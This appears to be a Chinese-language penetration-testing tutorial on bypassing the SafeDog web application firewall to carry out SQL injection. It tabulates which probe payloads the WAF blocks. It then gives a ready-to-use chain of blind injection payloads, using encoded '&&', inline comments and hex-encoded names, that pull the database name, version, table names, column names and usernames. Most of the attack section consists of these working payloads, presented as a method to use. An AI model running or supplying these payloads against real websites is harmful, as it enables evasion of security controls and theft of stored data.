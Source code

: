 # sql注入绕狗安全狗

## 0x01概述

在做渗透测试的时候经常会遇到安全狗防护，为了更好的做渗透所以好好研究了以下如何绕过安全狗进行sql注入。

## 常见的绕狗方法

- 注释符号绕过
- 替换关键字绕过
- 大小写绕过
- 双写关键字绕过
- 特殊编码绕过
- 空格过滤绕过
- 替换or and 绕过
- 等等

## 分析安全狗过滤的关键字

分析安全狗过滤的关键字和特殊符号用于判断那些关键字和特殊符号可以用来绕过安全狗。


| payload        | 结果    |
| --------   | -----:  |
| '        | 数据库报错，不拦截     |
| ' and 1=1–+       | 拦截      |
| ' sss 1=1        | 不拦截     |
| ' %26%261–+       | 拦截     |
| %26%26 True      | 不拦截     |
| 'xor 1–+     | 不拦截     |
| '|| 1     | 拦截     |
| /*!order*//*!baaaaa*/1--+ | 不拦截     |
————————————————
等等

## 绕狗注入

经过上面的分析，我们可以看出，有很多关键字和特使符合没有被拦截，我们可以组合一下。

使用 '%26%26 (length(database/**/())=8)--+ 获取数据名的长度。


使用 '%26%26 (length(USER/**/())=14)--+ 获取数据库名的长度。


还有获取版本信息：' %26%26 (ascii(@@version)=53)--+

获取数据库的表数量,这里有俩点需要注意

1. count() 这个函数需要在()中掺杂一些注释用于绕过
2. 数据库名转换为16进制

' %26%26 (0<(select count(/*!table_name*/) from information_schema.tables where table_schema=0x7365637572697479))--+


获取数据库的表名

' %26%26 (0< ascii(substr((select group_concat(/*!table_name*/) from information_schema.tables where table_schema=0x7365637572697479),1,1))) --+


获取数据库的字段，注意&&用%26%26

' %26%26 (0<ascii(substr((select group_concat(/*!column_name*/) from information_schema.columns  where table_schema=0x7365637572697479 %26%26 table_name=0x7573657273),1,1))) --+


获取数据

' %26%26 (0<ascii(substr((SELECT group_concat(/*!username*/) FROM `security`.`users`),1,1))) --+


## 总结

绕狗的方法有很多，这是最基础的，就是用这么注释，编码来感染匹配规则，让他们检测不到，就达到了绕过。
